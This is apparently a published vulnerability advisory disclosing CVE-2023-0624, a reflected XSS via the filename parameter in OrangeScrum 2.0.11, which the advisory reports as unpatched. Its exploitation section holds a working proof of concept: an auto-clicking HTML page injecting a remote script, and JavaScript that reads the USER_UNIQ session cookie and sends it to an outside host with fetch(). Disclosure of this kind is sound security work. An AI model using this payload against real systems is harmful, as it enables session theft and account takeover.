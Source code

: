 ```yaml
---
slug: advisories/oberhofer/
title: OrangeScrum 2.0.11 - Reflected XSS via filename
authors: Carlos Bello
writer: cbello
codename: oberhofer
product: OrangeScrum 2.0.11
date: 2023-02-13 12:00 COT
cveid: CVE-2023-0624
severity: 7.3
description: OrangeScrum 2.0.11 - Reflected Cross-Site Scripting via filename
keywords: Fluid Attacks, Security, Vulnerabilities, Orangescrum, XSS
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                         |
| --------------------- | ------------------------------------------------------- |
| **Name**              | OrangeScrum 2.0.11 - Reflected XSS via filename         |
| **Code name**         | [Oberhofer](https://en.wikipedia.org/wiki/Oberhofer)    |
| **Product**           | OrangeScrum                                             |
| **Affected versions** | 2.0.11                                                  |
| **State**             | Public                                                  |
| **Release Date**      | 2023-02-13                                              |

## Vulnerability

|                       |                                                                                                        |
| --------------------- | -------------------------------------------------------------------------------------------------------|
| **Kind**              | Reflected cross-site scripting (XSS)                                                                   |
| **Rule**              | [008. Reflected cross-site scripting (XSS)](https://docs.fluidattacks.com/criteria/vulnerabilities/008)|
| **Remote**            | Yes                                                                                                    |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:U/C:H/I:H/A:N                                                           |
| **CVSSv3 Base Score** | 7.3                                                                                                    |
| **Exploit available** | No                                                                                                     |
| **CVE ID(s)**         | [CVE-2023-0624](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-0624)                          |

## Description

OrangeScrum version 2.0.11 allows an external attacker to obtain arbitrary
user accounts from the application. This is possible because the application
returns malicious user input in the response with the content-type set to
text/html.

## Vulnerability

This vulnerability occurs because the application returns malicious user input
in the response with the content-type set to text/html.

## Exploitation

To exploit this vulnerability, we only need to send the following malicious HTML
code to an application user.

### Exploit.html

```html
<!DOCTYPE html>
<html>
    <body>
        <a id="exploit" href="https://retr02332bughunter.orangescrum.com/defect/defects/download?filename=%3Cscript+type=%27text/javascript%27+src=%27https://retr02332.com/exploit-utils.js%27%3E%3C/script%3E"> Exploit</a>
        <script>
            document.getElementById("exploit").click();
        </script>
    </body>
</html>
```

The malicious JavaScript that we embed in the page is as follows.

### Exploit-utils.js

```js
function getCookie(name) {
    const value = `; ${document.cookie}`;
    const parts = value.split(`; ${name}=`);
    if (parts.length === 2) return parts.pop().split(';').shift();
}

let sessionCookie = `USER_UNIQ=${getCookie("USER_UNIQ")}`;

fetch("https://retr02332.com/leak?"+sessionCookie);
```

Thus, when the user clicks on the malicious link, it will send its session
cookie to the attacker's server logs.

## Evidence of exploitation

![vulnerability-orangescrum](https://user-images.githubusercontent.com/51862990/216176343-4430e676-1622-4af1-a866-3f773e6f6682.png)

<iframe src="https://streamable.com/e/0bb1c1"
frameborder="0" width="835px" height="505px"
allowfullscreen></iframe>

![cookie-leak-orangescrum](https://user-images.githubusercontent.com/51862990/216176496-96c7ad03-4a72-4eb3-adad-1f614f8ff508.png)

## Our security policy

We have reserved the ID CVE-2023-0624 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: OrangeScrum 2.0.11

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://github.com/Orangescrum/orangescrum/>

## Timeline

<time-lapse
  discovered="2023-02-07"
  contacted="2023-02-07"
  replied="2023-02-07"
  confirmed=""
  patched=""
  disclosure="2023-02-13">
</time-lapse>
